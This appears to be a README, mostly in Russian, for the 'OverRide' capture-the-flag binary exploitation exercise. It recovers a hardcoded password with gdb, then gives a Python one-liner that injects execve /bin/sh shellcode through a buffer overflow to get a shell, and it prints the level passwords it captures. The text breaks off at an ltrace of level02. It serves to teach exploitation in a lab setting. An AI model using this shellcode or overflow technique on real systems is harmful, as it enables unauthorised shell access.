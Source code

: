 # override

LEVEL00
		
level00@OverRide:~$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:
		
Видим, что требуется пароль.
		
$ gdb level00
		
В main происходит сравнение строки, которая подается в качестве пароля с 0x149c, что соответствует  5276 в десятичной.
		
0x080484e7 <+83>:	cmp    $0x149c,%eax

Если подается что-то другое то команда jne перебрасывается мимо необходимой команды system.

0x080484ec <+88>:	 jne    0x804850d <main+121>

$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:5276

Authenticated!

$ cat /home/users/level01/.pass
uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

LEVEL01

 (cat /tmp/user ; cat) | ./level01

python -c "print 'dat_wil' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\n' + 'A'*80 + '\x08\x04\xa0\x47'[::-1]" > /tmp/test

level01@OverRide:~$ cat /tmp/test - | ./level01

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv


LEVEL02
level02@OverRide:~$ ltrace ./level02
__libc_start_main(0x400814, 1, 0x7fffffffe6b8, 0x400ac0, 0x400b50 <unfinished ...>
fopen("/home/users/level03/.pass", "r") = 0
fwrite("ERROR: failed to open password f"..., 1, 36, 0x7ffff7dd4180ERROR: failed to open password file
) = 36
exit(1 <unfinished ...>
+++ exited (status 1) +++
